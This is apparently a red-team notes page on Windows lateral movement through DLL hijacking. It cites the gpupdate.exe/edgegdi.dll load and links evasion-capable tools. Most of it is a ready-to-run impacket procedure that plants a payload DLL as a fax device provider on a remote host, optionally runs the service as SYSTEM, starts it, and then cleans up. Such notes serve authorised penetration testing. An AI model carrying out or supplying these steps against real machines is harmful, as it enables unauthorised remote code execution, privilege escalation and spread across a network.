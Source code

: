 ```yaml
---
title: Lateral Movement trough DLL Hijacking
---
```


[[notes/lateral-movement/index]] by writing a DLL into a location were a periodically running program will load it.

For example `gpupdate.exe` runs as `NT Authority\Network Service` and loads `C:\Windows\System32\edgegdi.dll` every 90 minutes ([source](http://web.archive.org/web/20220624214207/https://www.mdsec.co.uk/2020/10/i-live-to-move-it-windows-lateral-movement-part-3-dll-hijacking/)).

Untested tools:

- [LatLoader](https://github.com/icyguider/LatLoader), includes evasion for various Elastic EDR rules
- [DCOM DLL Hijacking](https://github.com/WKL-Sec/dcomhijack), upload DLL, trigger load trough DCOM

# Fax Service

First write your DLL to `C:\Windows\System32\msfax.dll`, e.g. over SMB.
On startup the payload must migrate into another process because the fax process dies after loading the DLL.
Then create the registry keys and start the service.

~~~ bash
impacket-services -k -no-pass ws01.corp.com status -name fax
impacket-services -k -no-pass ws01.corp.com stop -name fax
path='HKLM\Software\Microsoft\Fax\Device Providers\{fdd90a36-8160-49b5-af34-3843e4c06417}'
impacket-reg -k -no-pass ws01.corp.com add -keyName "$path"
impacket-reg -k -no-pass ws01.corp.com add -keyName "$path" -v FriendlyName -vt REG_SZ -vd 'Microsoft Fax Provider'
impacket-reg -k -no-pass ws01.corp.com add -keyName "$path" -v ProviderName -vt REG_SZ -vd MicrosoftFaxProvider
impacket-reg -k -no-pass ws01.corp.com add -keyName "$path" -v ImageName -vt REG_EXPAND_SZ -vd 'C:\Windows\System32\msfax.dll'
impacket-reg -k -no-pass ws01.corp.com add -keyName "$path" -v APIVersion -vt REG_DWORD -vd 65536
impacket-services -k -no-pass ws01.corp.com change -name fax -start-name 'NT Authority\System'  # optional
impacket-services -k -no-pass ws01.corp.com start -name fax
~~~

Cleanup.

~~~ bash
impacket-services -k -no-pass ws01.corp.com stop -name fax
impacket-services -k -no-pass ws01.corp.com change -name fax -start-name 'NT Authority\NetworkService'
impacket-reg -k -no-pass ws01.corp.com delete -keyName "$path" -va
~~~

References:

- [TROOPERS22: Unorthodox Lateral Movement: Stepping Away from the Standard Tradecraft](https://www.youtube.com/watch?v=z3kUwvunBIo)
